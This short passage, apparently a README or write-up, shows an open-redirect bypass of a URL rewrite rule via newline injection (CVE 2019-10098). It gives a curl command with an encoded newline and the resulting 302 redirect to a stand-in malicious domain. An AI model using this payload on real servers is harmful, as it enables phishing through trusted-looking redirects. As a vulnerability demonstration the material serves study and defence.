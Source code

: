 Normal URLs like http://redirect.local/test will be forwared to https://redirect.local/test. But by using newlines (CVE 2019-10098), we can redirect somewhere else (i.e. to `https://redirect.local.evilwebsite.com`):

```
curl -Ik 'https://redirect.local/%0a.evilwebsite.com' --path-as-is
HTTP/2 302 
date: Mon, 28 Oct 2019 03:36:58 GMT
content-type: text/html; charset=iso-8859-1
location: https://redirect.local.evilwebsite.com
```